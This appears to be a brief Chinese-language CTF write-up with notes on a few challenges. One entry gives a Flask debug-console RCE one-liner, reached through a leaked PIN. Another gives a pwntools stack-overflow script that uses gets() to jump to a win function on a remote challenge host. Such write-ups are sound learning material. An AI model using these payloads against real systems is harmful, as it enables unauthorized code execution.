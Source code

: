 # web
### where-are-the-cookies
>[!description]
Tom is feeling especially snacky during the CTF, can you find where the cookies are?
Note: This challenge works best on Chrome

express+nginx1.25.1
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230805223931.png)
我tm哪知道cookies在哪

---


### debugzero
#flask
猜到了路由 `/console`,flask pin值在css文件里,直接可以进入
console rce
`__import__('os').popen('whoami').read();`



# reverse

# pwn
### Easy Peasy
vuln函数里有gets,一眼栈溢出
漏洞函数
```c
void __cdecl vuln()
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  gets(buf);
}
```

```python
from pwn import *
#local
#sh = process("./ret2text")
#remote
sh=remote('3.110.66.92',32075)
win = 0x4017E53
sh.sendline(b'A'*40 + p64(win))
sh.recvline()         
```
感觉一点问题没有,,,

# crypto

# Misc


---
# *相关wp*




2023-08-05   21:05